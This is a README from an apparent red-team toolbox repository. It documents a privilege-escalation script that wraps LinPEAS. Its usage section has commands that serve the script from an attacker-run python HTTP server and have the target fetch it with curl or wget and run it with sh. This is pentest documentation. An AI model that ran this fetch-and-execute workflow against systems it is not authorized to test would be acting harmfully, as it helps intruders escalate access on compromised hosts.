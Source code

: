 # Privilege Escalation Phase

This phase is about expanding your own authorizations. Access to a system is often only possible with low authorizations. However, tasks from other phases of the attack lifecycle often require increased authorizations. In order for the authorizations to be increased, vulnerabilities in the system, misconfigurations or other security holes must be found.

This script implements *LinPEAS* from [PEASS-ng](https://github.com/carlospolop/PEASS-ng).

For more information, go to [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/privesc/privesc.sh
sh privesc.sh -h
```
Local network:
```sh
# Host:
python3 -m http.server 8000 #python3
python2 -m SimpleHTTPServer 8000 #python2

# Target:
curl -LJO <Host>:8000/privesc.sh #or
curl <Host>:8000/privesc.sh > privesc.sh #or
wget <Host>:8000/privesc.sh
sh privesc.sh -h
```

## Results

The results are printed directly to STDOUT.
To print the output to a file, use the following command:
```sh
sh privesc.sh -a > /output/file.txt
```
You can read the file with colors:
```sh
less -r /output/file.txt
```

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems.
